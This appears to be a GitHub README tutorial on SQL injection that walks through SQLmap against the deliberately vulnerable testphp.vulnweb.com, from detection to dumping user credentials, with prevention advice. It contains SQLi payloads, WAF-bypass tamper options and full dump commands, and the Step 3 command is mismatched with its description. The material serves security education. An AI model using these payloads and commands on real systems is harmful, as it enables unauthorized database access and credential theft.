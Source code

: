 # Automating SQL Injection with SQLmap: A Comprehensive Guide

![SQL Injection Logo](https://www.vaadata.com/blog/wp-content/uploads/2024/05/exploiting-sqli-with-sqlmap.png)

## What is SQL Injection?

SQL injection (SQLi) is a critical web security vulnerability that allows attackers to manipulate an application's database queries. By injecting malicious SQL code into input fields, attackers can access unauthorized data, such as user credentials or sensitive information, modify or delete database contents, or even compromise the underlying server. This vulnerability has been the cause of numerous high-profile data breaches, leading to significant reputational and financial damage.

### How SQL Injection Works
SQL injection occurs when user input is improperly sanitized and directly included in SQL queries. For instance, consider a web application querying a product database:

sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1


If an attacker inputs ' OR '1'='1 as the category, the query becomes:

sql
SELECT * FROM products WHERE category = '' OR '1'='1' AND released = 1


This returns all products since '1'='1' is always true, bypassing intended restrictions.

Common SQL injection types include:
- *Retrieving Hidden Data*: Modifying queries to access unauthorized data.
- *Subverting Application Logic*: Bypassing authentication (e.g., ' OR '1'='1' --).
- *UNION Attacks*: Extracting data from other tables using the UNION operator.
- *Blind SQL Injection*: Inferring data through boolean or time-based techniques without direct output.

To detect SQL injection, test inputs with single quotes ('), boolean conditions (e.g., 1=1), or time-delay payloads (e.g., SLEEP(5)).

## Introduction to SQLmap

SQLmap is an open-source penetration testing tool designed to automate the detection and exploitation of SQL injection vulnerabilities in web applications. It supports a wide range of database management systems (DBMS) and offers robust features for database enumeration, data extraction, and advanced exploitation.

### Key Features
- Automated detection and exploitation of SQL injection vulnerabilities.
- Enumeration of databases, tables, columns, and data.
- Support for multiple injection techniques (boolean-based blind, time-based blind, UNION query, etc.).
- Customizable detection levels and risk settings.
- Tampering scripts to bypass web application firewalls (WAFs).
- REST-JSON API for integration and automation.

### Installation
On Kali Linux (recommended for penetration testing), install SQLmap with:

```bash
sudo apt install sqlmap
```

Alternatively, clone the repository from GitHub and run it with Python:

```bash
git clone https://github.com/sqlmapproject/sqlmap.git
cd sqlmap
python sqlmap.py
```



For basic usage, use sqlmap -u <URL> to test a URL, with flags like --dbs to list databases or --dump to extract data.

*Note*: This guide uses the test site http://testphp.vulnweb.com for demonstration. Always obtain permission before testing systems, as unauthorized scanning is illegal.

## Step-by-Step Guide to Using SQLmap

This guide provides a structured approach to detecting and exploiting SQL injection vulnerabilities using SQLmap, based on a practical demonstration.

### Step 1: Running SQLmap on the Vulnerable Endpoint
Target a potentially vulnerable endpoint, such as:

```bash
http://testphp.vulnweb.com/artists.php?artist=1
```

Run SQLmap to check for vulnerabilities:

```bash
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --batch
```



- -u: Specifies the target URL.
- --batch: Automatically selects default options for non-interactive execution.

SQLmap probes the URL's parameters (e.g., artist) to identify injection points.

### Step 2: Detecting the Vulnerability
SQLmap tests various payloads and reports injectable parameters. Example output:

bash
[INFO] sqlmap found the following injection point(s) from stored session:
Parameter: artist (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: artist=1 AND 5105=5105


This confirms a boolean-based blind SQL injection in the artist parameter. The payload 1 AND 5105=5105 evaluates to true, verifying the injection point.

### Step 3: Enumerating Databases
List available databases:

```bash
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users -C uname,pass --dump --batch
```




Example output:

bash
[INFO] available databases:
[*] acuart
[*] information_schema


Focus on the application-specific database, acuart.

### Step 4: Listing Tables in a Database
Enumerate tables in the acuart database:

```bash
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart --tables --batch
```



Example output:

bash
Database: acuart
[8 tables]
+-----------+
| artists   |
| carts     |
| categ     |
| featured  |
| guestbook |
| pictures  |
| products  |
| users     |
+-----------+


The users table is a likely target for sensitive data.

### Step 5: Listing Columns in a Table
Retrieve columns from the users table:

```bash
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users --columns --batch
```



Example output:

bash
Database: acuart
Table: users
[8 columns]
+---------+--------------+
| Column  | Type         |
+---------+--------------+
| name    | varchar(100) |
| address | mediumtext   |
| cart    | varchar(100) |
| cc      | varchar(100) |
| email   | varchar(100) |
| pass    | varchar(100) |
| phone   | varchar(100) |
| uname   | varchar(100) |
+---------+--------------+


Columns like uname (username) and pass (password) are of interest.

### Step 6: Dumping Data from a Table
Extract data from specific columns:

```bash
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users -C uname,pass --dump --batch
```



Example output:

bash
Table: users
[1 entry]
+-------+------+
| uname | pass |
+-------+------+
| test  | test |
+-------+------+


This retrieves usernames and passwords from the users table.

### Advanced Tips
- Adjust detection intensity with --level (1-5) and --risk (1-3).
- Use --tamper scripts (e.g., --tamper=space2comment) to bypass WAFs.
- Enable --threads for faster execution on multi-core systems.
- Check SQLmap logs (~/.sqlmap/output/) for detailed exploitation details.
- Use --sql-shell for an interactive SQL prompt on vulnerable systems.

## Preventing SQL Injection
Securing applications against SQL injection is critical. Key prevention strategies include:

- *Prepared Statements and Parameterized Queries*: Use parameterized queries to separate user input from SQL code.
- *Input Validation and Sanitization*: Validate and escape all user inputs against expected formats.
- *Least Privilege Principle*: Restrict database accounts to minimal permissions.
- *Error Handling*: Suppress detailed error messages that expose database details.
- *Web Application Firewalls (WAFs)*: Deploy WAFs to filter malicious inputs.
- *Stored Procedures*: Use pre-compiled SQL statements to limit injection risks.
- *Regular Security Testing*: Integrate tools like SQLmap into development pipelines.

For detailed guidance, refer to the [OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html).

## Conclusion
SQLmap is a powerful tool for identifying and exploiting SQL injection vulnerabilities, making it invaluable for ethical hackers and security professionals. However, the ultimate goal is to secure applications against such attacks. This guide demonstrates a responsible approach to learning SQLmap—use it ethically and only on authorized systems.

Star this repository and contribute improvements to support the community!

*Disclaimer*: This guide is for educational purposes only. Unauthorized testing is illegal and unethical. Always obtain explicit permission before testing any system.
